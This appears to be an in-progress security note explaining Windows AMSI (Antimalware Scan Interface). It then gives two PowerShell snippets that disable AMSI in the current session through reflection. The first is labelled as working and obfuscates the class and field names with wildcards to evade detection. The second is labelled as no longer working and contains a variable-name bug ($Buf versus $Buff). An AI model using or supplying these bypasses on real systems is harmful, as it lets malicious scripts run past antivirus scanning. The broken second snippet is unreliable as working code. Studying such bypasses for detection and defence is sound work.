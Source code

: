 
>[!info]
>This note is still in development.

### Overview
---

AMSI stands for "Antimalware Scan Interface" and is the predominant defense against malicious PowerShell scripts and tools on Windows systems.

When a script is executed in a supported environment (e.g., a PowerShell script), the script content can be passed to the installed antivirus or antimalware software via AMSI for scanning before execution. If malicious code is detected, the execution can be blocked.

(This is separate from Windows Defender Real-time Protection or anything being downloaded to/executed from disk.)

Because of this, a key goal for attackers is to bypass AMSI.

### Example
---

- Example Bypass #1: Telling AMSI that initialization failed. (working)
```powershell
# Disable AMSI in the current session (doesn't work in PowerShell Core)
$Var = [Ref].Assembly.GetTypes() | %{if ($_.Name -like "*Am*s*ils*") {$_.GetFields("NonPublic,Static") | ?{$_.Name -like "*ailed*"}}}
$Var.SetValue($NULL,$TRUE)
```

- Example Bypass #2: Setting AMSI context to null (stopped working)
```powershell
$Var = [Ref].Assembly.GetTypes() | %{if ($_.Name -like "*Am*s*ils*") {$_.GetFields("NonPublic,Static") | ?{$_.Name -like "*ontext"}}}
[IntPtr]$Ptr=$Var.GetValue($NULL); [Int32[]]$Buf=@(0)
[System.Runtime.InteropServices.Marshal]::Copy($Buff, 0, $Ptr, 1)
```
